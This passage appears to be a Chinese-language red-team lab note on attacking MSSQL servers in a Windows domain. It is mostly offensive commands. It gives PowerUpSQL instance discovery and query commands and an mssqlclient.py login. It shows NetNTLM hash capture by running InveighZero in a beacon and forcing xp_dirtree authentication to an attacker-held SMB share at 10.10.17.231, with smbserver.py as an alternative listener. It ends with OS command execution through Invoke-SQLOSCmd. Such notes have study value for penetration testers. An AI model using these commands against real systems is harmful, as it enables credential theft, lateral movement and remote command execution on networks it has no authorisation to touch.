 查找MSSQL实例的cmdlets
```
Get-SQLInstanceDomain
Get-SQLInstanceBroadcast
Get-SQLInstanceScanUDP
```

找是否可以连接数据库
```
Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl
```

详细的连接实例信息

```
Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"
```

执行sql命令
```
Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select @@servername"
```

```mssqlclient.py```连接mssql，需要账号密码

```
python3 /usr/local/bin/mssqlclient.py -windows-auth DEV/bfarmer@10.10.17.25
```

## NetNTLM Capture

方法1

1. 监听
首先在本地监听，使用[InveighZero](https://github.com/Kevin-Robertson/InveighZero)进行监听，需要本地管理员权限
```
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```
2. 触发
在mssql上，执行命令```EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1```，10.10.17.231的IP地址就是上面监听的机器

方法2

可以使用 WinDivert + rportfwd把smb流量转发到teamserver（就是kali机），然后再kali使用[smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)监听，这个方法前面几章已经有展示。

监听
```
root@kali:~# python3 /usr/local/bin/smbserver.py -smb2support pwn .
```


## MSSQL Command Execution

PowerUpSQL使用```Invoke-SQLOSCmd```命令

```
beacon> powershell Invoke-SQLOSCmd -Instance "srv-1.dev.cyberbotic.io,1433" -Command "whoami" -RawResults
